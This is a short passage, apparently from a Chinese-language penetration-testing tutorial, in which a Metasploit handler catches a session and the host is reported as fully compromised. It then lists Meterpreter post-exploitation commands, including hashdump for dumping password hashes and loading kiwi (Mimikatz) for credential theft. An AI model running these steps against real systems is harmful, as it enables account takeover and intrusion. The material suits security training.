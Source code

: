 在下面的截图中，我们还看到我们在本地机器上的处理程序设置正确：

![](img/8da4e7bb-4d62-4b63-9dcd-379db2859ae7.png)

接下来，运行以下命令：

```
exploit  
```

哎呀！我们又有一个主机被入侵，获得了完整的系统级访问权限。

运行以下命令：

```
sysinfo # This shows the system's information.
getuid # This shows the level of access to the system.
hashdump # To dump the local hashes and user accounts.
load kiwi # To load the Kiwi Toolset.  
```

![](img/4ae60c63-82a8-4e97-9751-a0e91cdae4df.png)
